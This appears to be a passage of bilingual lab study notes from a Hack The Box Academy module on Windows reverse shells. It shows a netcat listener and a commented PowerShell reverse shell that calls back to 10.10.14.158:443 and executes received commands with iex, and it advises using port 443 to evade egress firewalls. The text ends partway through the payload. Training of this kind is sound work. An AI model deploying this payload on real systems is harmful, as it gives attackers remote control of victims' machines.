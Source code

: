 # Reverse Shells ( Windows)

***

With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.

<mark style="color:orange;">**Reverse Shell Example**</mark>

![image](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)&#x20;

***

### <mark style="color:red;">Hands-on With A Simple Reverse Shell in Windows</mark>

<mark style="color:green;">**Server (**</mark><mark style="color:green;">**`attack box`**</mark><mark style="color:green;">**)**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

{% hint style="warning" %}
Cette fois-ci, avec notre écouteur, nous le lions à un port commun (443), un port généralement utilisé pour les connexions HTTPS. Nous pouvons vouloir utiliser des ports communs comme celui-ci, car lorsque nous initions la connexion vers notre écouteur, nous voulons nous assurer qu'il ne soit pas bloqué en sortie par le pare-feu du système d'exploitation et au niveau du réseau. Il serait rare de voir une équipe de sécurité bloquer le port 443 en sortie, car de nombreuses applications et organisations dépendent de HTTPS pour accéder à divers sites web pendant la journée de travail.

Cela dit, un pare-feu capable d'inspection approfondie des paquets (Deep Packet Inspection) et de visibilité au niveau de la couche 7 pourrait être capable de détecter et d'arrêter un reverse shell sortant sur un port commun, car il examine le contenu des paquets réseau, et pas seulement l'adresse IP et le port.&#x20;
{% endhint %}

<mark style="color:green;">**Client (target)**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
# L'option `-nop` désactive la protection des politiques d'exécution (no profile)
# L'option `-c` indique que le reste de la commande est du code à exécuter
powershell -nop -c "
    # Création d'un objet TCPClient pour se connecter à l'adresse 10.10.14.158 sur le port 443
    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158', 443);

    # Obtention du flux de données du client pour lire et écrire
    $stream = $client.GetStream();

    # Déclaration d'un tableau de bytes (octets) pour stocker les données reçues
    [byte[]]$bytes = 0..65535 | % { 0 };

    # Boucle pour lire les données envoyées par le flux tant qu'il y a des données (tant que $i est différent de 0)
    while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        # Conversion des données reçues en chaîne de caractères ASCII
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);

        # Exécution du code reçu avec la commande `iex` et capture de la sortie (y compris les erreurs)
        $sendback = (iex $data 2>&1 | Out-String);

```